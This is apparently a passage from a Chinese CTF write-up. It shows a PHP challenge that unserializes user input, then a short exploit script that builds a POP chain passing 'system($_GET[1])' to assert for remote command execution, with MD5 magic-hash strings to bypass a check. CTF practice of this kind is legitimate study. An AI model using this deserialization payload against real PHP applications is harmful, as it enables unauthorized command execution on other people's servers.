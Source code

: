 ```php
   {
      echo $this;
   }
}

class fin
{
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm()
   {
      $b = $this->a;
      $b($this->title);
   }
}

if (isset($_GET['NSS'])) {
   $Data = unserialize($_GET['NSS']);
} else {
   highlight_file(__file__);
}
```

简单 pop 链构造以及 wakeup 的绕过

```php
<?php

class lt
{
   public $impo;
   public $md51;
   public $md52;

}

class fin
{
   public $a = 'assert';
   public $title = 'system($_GET[1])';

}


$b = new fin();

$a = new lt();
$a->impo = $b;
$a->md51 = 's878926199a';
$a->md52 = 's155964671a';

echo serialize($a);
```
